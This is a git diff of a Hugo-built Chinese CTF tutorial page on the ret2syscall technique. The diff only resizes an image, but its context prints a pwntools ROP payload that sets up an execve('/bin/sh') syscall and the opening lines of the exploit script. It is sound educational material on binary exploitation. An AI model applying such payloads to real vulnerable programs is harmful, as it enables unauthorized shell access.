

deploy: update Hugo site

diff --git a/how2pwn/1-3-ret2syscall/index.html b/how2pwn/1-3-ret2syscall/index.html
@@ -719,7 +719,7 @@ legend: stack | heap | code | data | wx | rodata
 </code></pre><p>IDA里看 gadget 函数可能有一点边界问题，但是不影响我们解题
 有一套完整的gadget 用于设置 rax rdi rsi rdx，同时有syscall的gadget</p><p>根据上一部分提到的构造，我们需要通过 ROP 设置 rax 为 0x3b
 rdi指向 /bin/sh ，rsi和rdx设置为 0
-大致栈结构如下<figure class=article-image><img src=/how2pwn/1-3-ret2syscall/image.png width=749 height=596 alt="alt text" loading=lazy></figure>因此我们可以写出payload</p><div class=highlight><pre tabindex=0 style=color:#e6edf3;background-color:#0d1117;-moz-tab-size:4;-o-tab-size:4;tab-size:4><code class=language-py data-lang=py><span style=display:flex><span>payload <span style=color:#ff7b72;font-weight:700>=</span> cyclic(<span style=color:#a5d6ff>0x28</span>) <span style=color:#ff7b72;font-weight:700>+</span> p64(gadget) <span style=color:#ff7b72;font-weight:700>+</span> p64(<span style=color:#a5d6ff>0x3b</span>) <span style=color:#ff7b72;font-weight:700>+</span> p64(binsh_addr) <span style=color:#ff7b72;font-weight:700>+</span> p64(<span style=color:#a5d6ff>0</span>) <span style=color:#ff7b72;font-weight:700>+</span>p64(<span style=color:#a5d6ff>0</span>) <span style=color:#ff7b72;font-weight:700>+</span> p64(syscall_addr)
+大致栈结构如下<figure class=article-image><img src=/how2pwn/1-3-ret2syscall/image.png width=564 height=464 alt="alt text" loading=lazy></figure>因此我们可以写出payload</p><div class=highlight><pre tabindex=0 style=color:#e6edf3;background-color:#0d1117;-moz-tab-size:4;-o-tab-size:4;tab-size:4><code class=language-py data-lang=py><span style=display:flex><span>payload <span style=color:#ff7b72;font-weight:700>=</span> cyclic(<span style=color:#a5d6ff>0x28</span>) <span style=color:#ff7b72;font-weight:700>+</span> p64(gadget) <span style=color:#ff7b72;font-weight:700>+</span> p64(<span style=color:#a5d6ff>0x3b</span>) <span style=color:#ff7b72;font-weight:700>+</span> p64(binsh_addr) <span style=color:#ff7b72;font-weight:700>+</span> p64(<span style=color:#a5d6ff>0</span>) <span style=color:#ff7b72;font-weight:700>+</span>p64(<span style=color:#a5d6ff>0</span>) <span style=color:#ff7b72;font-weight:700>+</span> p64(syscall_addr)
 </span></span></code></pre></div><p>完善exp</p><details><summary>exp</summary><div class=highlight><pre tabindex=0 style=color:#e6edf3;background-color:#0d1117;-moz-tab-size:4;-o-tab-size:4;tab-size:4><code class=language-py data-lang=py><span style=display:flex><span><span style=color:#8b949e;font-style:italic>#!/usr/bin/python3</span>
 </span></span><span style=display:flex><span><span style=color:#ff7b72>from</span> <span style=color:#ff7b72>pwn</span> <span style=color:#ff7b72>import</span> <span style=color:#ff7b72;font-weight:700>*</span>
 </span></span><span style=display:flex><span>context(arch <span style=color:#ff7b72;font-weight:700>=</span> <span style=color:#a5d6ff>&#39;amd64&#39;</span>,os <span style=color:#ff7b72;font-weight:700>=</span> <span style=color:#a5d6ff>&#39;linux&#39;</span>,log_level <span style=color:#ff7b72;font-weight:700>=</span> <span style=color:#a5d6ff>&#39;debug&#39;</span>)
